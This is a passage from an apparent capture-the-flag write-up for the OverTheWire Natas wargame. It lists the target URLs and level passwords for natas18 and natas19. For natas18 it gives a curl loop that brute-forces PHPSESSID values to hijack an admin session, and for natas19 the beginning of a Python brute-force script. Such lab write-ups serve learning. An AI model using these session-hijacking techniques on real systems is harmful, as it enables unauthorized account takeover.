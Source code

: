 ```
            break

conn.close()
EOF
```

### natas18

**Target:**

```
http://natas18.natas.labs.overthewire.org/index.php
natas18
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

**Vuln:** simple session hijacking

**Exploitation:**

```
$ for i in $(seq 0 640); do curl -s -b "PHPSESSID=$i" -H "Authorization: Basic `echo -n 'natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP' | base64`" "http://natas18.natas.labs.overthewire.org/"; done | grep -A2 'You are an admin'
```

### natas19

**Target:**

```
http://natas19.natas.labs.overthewire.org/index.php
natas19
4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

**Exploitation:**

```
cat > natas19-exploit.py <<EOF
import os, sys
import httplib
import urllib
import base64
import string
import time
from random import randint

user = "natas19"
passwd = "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"

authToken = urllib.quote(base64.b64encode(user + ":" + passwd))

headers = {
    "Content-type": "application/x-www-form-urlencoded",
    "Authorization": "Basic " + authToken,
}

# connection via proxy
conn = httplib.HTTPConnection("127.0.0.1", 8080)

D2_digit = False
D3_digit = False

for i in xrange(0, 10):
    for j in xrange(0, 10):
        for k in xrange(0, 10):
            params = urllib.urlencode({'username': 'a', 'password': 'b'})
```